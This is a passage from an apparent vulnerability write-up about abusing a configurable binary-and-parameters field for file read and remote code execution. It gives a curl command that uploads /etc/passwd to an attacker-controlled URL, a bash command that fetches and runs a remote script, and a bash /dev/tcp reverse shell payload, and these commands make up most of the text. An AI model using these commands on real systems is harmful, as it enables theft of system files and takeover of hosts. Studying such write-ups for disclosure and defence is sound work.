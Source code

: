 We can now get an arbitrary file read by defining the binary as `curl` and the parameters as `"<URL_UNDER_OUR_CONTROL>" -F "file=@/etc/passwd"`.

![alt text](../captures/c17_15.png "Figure 16: Arbitrary File Read 1")

Or getting a remote code execution as follow.

### Remote Code Execution

Set the binary as `bash` and the parameters as `-c "$(curl <URL_UNDER_OUR_CONTROL>/poc.txt)"` where <span style="color:red">poc.txt</span> contains the following content:

File: <span style="color:red">poc.txt</span>
```bash
bash -i >& /dev/tcp/<NETCAT_LISTENER_IP>/<NETCAT_LISTENER_PORT> 0>&1
```

![alt text](../captures/c17_16.png "Figure 17: Remote Code Execution 1")
